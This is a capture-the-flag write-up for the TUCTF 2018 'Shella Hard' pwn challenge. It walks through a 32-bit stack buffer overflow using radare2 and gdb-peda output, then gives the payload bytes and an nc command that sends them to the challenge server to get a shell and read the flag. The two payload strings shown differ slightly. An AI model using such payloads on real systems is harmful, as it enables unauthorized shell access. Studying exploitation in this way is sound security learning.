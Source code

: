 #### TUCTF CTF 2018 - Shella Hard 476 - Pwn 

##### Challenge

Difficulty: mind-melting hard
This program is crap! Is there even anything here?

nc 3.16.169.157 12345

#### Summary

It is a pwn task with a classic buffer stack overflow. The binary has NX enabled, and the way to get a shell is via *execve*. In addition, we have the string */bin/sh* in the code.

#### Solution

```bash
shella-hard: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4bf12a273afc940e93699d77a19496b781e88246, not stripped
```



![](https://unam.re/static/files/Shella-main.png)



```assembly
[0x0804843b]> iI
arch     x86
baddr    0x8048000
binsz    6047
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
[0x0804843b]> afll
address    size  nbbs edges    cc cost  min bound range max bound  calls locals args xref frame name
========== ==== ===== ===== ===== ==== ========== ===== ========== ===== ====== ==== ==== ===== ====
0x080482cc   35     3     3     2   19 0x080482cc    35 0x080482ef     2    0      0    1    12 sym._init
0x08048300    6     1     0     1    3 0x08048300     6 0x08048306     0    0      0    1     0 sym.imp.read
0x08048310    6     1     0     1    3 0x08048310     6 0x08048316     0    0      0    1     0 sym.imp.__libc_start_main
0x08048320    6     1     0     1    3 0x08048320     6 0x08048326     0    0      0    1     0 sym.imp.execve
0x08048330    6     1     0     1    3 0x08048330     6 0x08048336     0    0      0    1     0 sub.__gmon_start_330
0x08048340   33     1     0     1   20 0x08048340    33 0x08048361     1    0      0    0    28 entry0
0x08048370    4     1     0     1    4 0x08048370     4 0x08048374     0    0      0    3     0 sym.__x86.get_pc_thunk.bx
0x08048380   43     4     5     3   22 0x08048380    43 0x080483ab     0    0      0    1    24 sym.deregister_tm_clones
0x080483b0   53     4     5     3   28 0x080483b0    53 0x080483e5     0    0      0    2    24 sym.register_tm_clones
0x080483f0   30     3     3     2   15 0x080483f0    30 0x0804840e     1    0      0    0     8 sym.__do_global_dtors_aux
0x08048410   40     4     6     4   24 0x08048410    43 0x0804843b     0    0      0    0    28 entry1.init
0x0804843b   29     1     0     1   18 0x0804843b    29 0x08048458     1    1      0    1    32 sym.main
0x08048458   26     1     0     1   16 0x08048458    26 0x08048472     1    0      0    0     4 sym.giveShell
0x08048480   93     4     5     3   50 0x08048480    93 0x080484dd     2    0      2    1    28 sym.__libc_csu_init
0x080484e0    2     1     0     1    3 0x080484e0     2 0x080484e2     0    0      0    1     0 sym.__libc_csu_fini
0x080484e4   20     1     0     1   12 0x080484e4    20 0x080484f8     1    0      0    0    12 sym._fini
[0x0804843b]> iz
000 0x00000500 0x08048500   7   8 (.rodata) ascii /bin/sh

```



As every stack buffer overflow challenges, we will find the offset.

```assembly
gdb-peda$ pattern create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ r < input 
Starting program: /home/hiro/CTF/TUCTF_2018/pwn_shella/shella-hard < input

Program received signal SIGSEGV, Segmentation fault.

 [----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0xb7fbc000 --> 0x1a8da8 
ECX: 0xbffff398 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA\377\277L\364\377\277\232\316\376\267\001")
EDX: 0x1e 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41434141 ('AACA')
ESP: 0xbffff3b0 ("(AADAA\377\277L\364\377\277\232\316\376\267\001")
EIP: 0x41412d41 ('A-AA')
EFLAGS: 0x10292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41412d41
[------------------------------------stack-------------------------------------]
0000| 0xbffff3b0 ("(AADAA\377\277L\364\377\277\232\316\376\267\001")
0004| 0xbffff3b4 --> 0xbfff4141 --> 0x0 
0008| 0xbffff3b8 --> 0xbffff44c --> 0xbffff5d2 ("XDG_VTNR=7")
0012| 0xbffff3bc --> 0xb7fece9a (<call_init+26>:	add    ebx,0x12166)
0016| 0xbffff3c0 --> 0x1 
0020| 0xbffff3c4 --> 0xbffff444 --> 0xbffff5a1 ("/home/hiro/CTF/TUCTF_2018/pwn_shella/shella-hard")
0024| 0xbffff3c8 --> 0xbffff3e4 --> 0xa008f5bd 
0028| 0xbffff3cc --> 0x804a010 --> 0xb7e2c970 (<__libc_start_main>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41412d41 in ?? ()
gdb-peda$ patts
Registers contain pattern buffer:
EIP+0 found at offset: 20
EBP+0 found at offset: 16
Registers point to pattern buffer:
[ECX] --> offset 0 - size ~71
[ESP] --> offset 24 - size ~47
Pattern buffer found at:
0xbffff398 : offset    0 - size   30 ($sp + -0x18 [-6 dwords])
References to pattern buffer found at:
0xb7f6e085 : 0xbffff398 (/lib/i386-linux-gnu/i686/cmov/libc-2.19.so)
0xbffff37c : 0xbffff398 ($sp + -0x34 [-13 dwords])
0xbffff390 : 0xbffff398 ($sp + -0x20 [-8 dwords])
```



Alright, the EIP to overwrite is at offset 20. But the instruction *leave* will copy the frame pointer into the stack, so, there we have to write the address where we want to jump - 0x4 (execve - 0x4).  after this, we put the address of execve, a dummy and the address of /bin/sh with a *NULL* byte at the end.

```
"\x01\x00"+"A"*14+"\x63\x84\x04\x08"+"AAAA"+"\x00\x85\x04\x08"+"\x00"
```

The first 0x1 is because we need to set 0x1 into ECX register, in order to executes correctly *execve*. 



We launch against the server:

```bash
hiro@HackingLab:~/CTF/TUCTF_2018/pwn_shella$ python -c 'print "\x01\x00"+"A"*14+"\x63\x84\x04\x08"+"\x67\x84\x04\x08"+"\x00\x85\x04\x08"+"\x00"' > input
hiro@HackingLab:~/CTF/TUCTF_2018/pwn_shella$ (cat input ; cat) |  nc 3.16.169.157 12345
ls
chal
flag
id
uid=501(chal) gid=501(chal) groups=501(chal)
cat flag
TUCTF{175_wh475_1n51d3_7h47_c0un75}
```



Happy hacking! :)